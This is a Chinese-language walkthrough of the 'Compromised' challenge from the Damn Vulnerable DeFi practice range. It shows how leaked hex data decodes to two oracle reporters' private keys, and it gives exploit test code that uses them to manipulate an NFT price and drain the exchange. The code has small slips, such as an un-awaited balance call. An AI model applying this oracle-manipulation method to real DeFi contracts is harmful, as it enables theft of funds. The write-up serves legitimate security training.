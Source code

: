 # Damn Defi靶场刷题记录(7)

    author: Thomas_Xu

## 7 Compromised
之所以单独把这个题拉出来做一个wp是因为这个题太特殊了，也因为8，9是一套题目。
这个题设置的背景就很奇怪，它给了我们一个服务器的响应片段，而这些片段是由两大串十六进制数组成的。
而我们目前并不知道这串十六进制数意味着什么，那么先来看看代码吧。
> 通过粗略阅读后我们可以发现，这其实就是三个所谓的“可信报告者”所组成的一个预言机系统，最终的定价会以三个人的中位数为准，那么也就意味着我们只要控制两个人的行为，就可以操控价格。（想一想之前给的两串十六进制数，是不是能想到点什么呢？）

再来看合约
* **TrustfulOracleInitializer**
这只是一个TrustfulOracle的初始化合约，没有什么内容
* **TrustfulOracle**
这个预言机值得我们仔细阅读，首先，这个合约拓展了openzeppelin库的`AccessControlEnumerable.sol`，用来实现权限的管理，因为只有初始化的三个可信报告者可以定价。
这个预言机合约几乎提供了所有的可以修改价格的函数，报告者通过`postPrice()`来设定自己的价格，而`getMedianPrice()`是交易所来获取三个可信者定价中位数的函数，并以此来作为该交易的价格。

似乎没有一个有明显漏洞的地方可以利用，我们不得不重新回到原点重新思考，也许题目中给的两串十六进制数会有重大作用。
那我们就从这两串十六进制数入手，先把这十六进制数通过ascii码转换一下：
`MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5`
`MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4`
得到了两串“啥也不是”的字符串，但还不甘心，于是想这任然可能是编码后的结果，于是就拿到工具里一个一个解码尝试，最终发现base64解码出来后是一个类似于私钥的字符串
`0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9`
`0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48`
再次拿着字符串去做公钥的计算，发现竟然和题目中的两个可信报告者公钥一致！那么我们就等于是拿到了两个可信者的公钥，我们现在就是可信者！
那么到此，此题迎刃而解，我们通过获取机制中超过半数的控制权，获得了定价的权利。
* **Exploit**
由于我们获取了定价的权利，因此我们可以用几乎为0的价格买入NFT而以巨大的金额卖出它！
```
 it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
        //用二者私钥创建钱包
        const sources1 = new ethers.Wallet("0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9", ethers.provider);
        const sources2 = new ethers.Wallet("0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48", ethers.provider);

        //将NFT价格设置为1wei
        await this.oracle.connect(sources1).postPrice("DVNFT", 1);
        await this.oracle.connect(sources2).postPrice("DVNFT", 1);

        //买入
        await this.exchange.connect(attacker).buyOne({value:1});

        //重新将价格设置为exchange合约的总余额
        _balance =  ethers.provider.getBalance(this.exchange.address);
        await this.oracle.connect(sources1).postPrice("DVNFT", _balance);
        await this.oracle.connect(sources2).postPrice("DVNFT", _balance);

        //卖出
        await this.nftToken.connect(attacker).approve(this.exchange.address, 0);
        await this.exchange.connect(attacker).sellOne(0);

        //重新把NFT价格复原
        await this.oracle.connect(sources1).postPrice("DVNFT", INITIAL_NFT_PRICE);
        await this.oracle.connect(sources2).postPrice("DVNFT", INITIAL_NFT_PRICE);
    });
```
